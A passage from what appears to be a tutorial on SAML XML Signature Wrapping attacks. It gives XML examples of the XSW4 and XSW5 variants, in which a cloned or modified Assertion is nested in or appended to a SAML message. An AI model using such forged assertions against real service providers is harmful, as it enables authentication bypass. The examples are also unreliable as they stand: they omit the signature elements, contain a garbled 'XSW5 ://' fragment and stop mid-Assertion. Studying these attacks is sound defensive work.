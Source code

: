 ```
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>
</Assertion>
```
The XSW4 scenario happens in SAML Assertion messages. The attacker inserts a cloned and unsigned copy of Assertion into the existing Assertion. Thus, there is more than one Assertion in the existing Assertion and the attacker's powers are expanded.

- XSW5 :// replaces a value found in the signed copy and appends a copy of the original unsigned Assertion to the end of the SAML message.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>

<!-- Copy of Assertion modified for XSW5 scenario -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
```
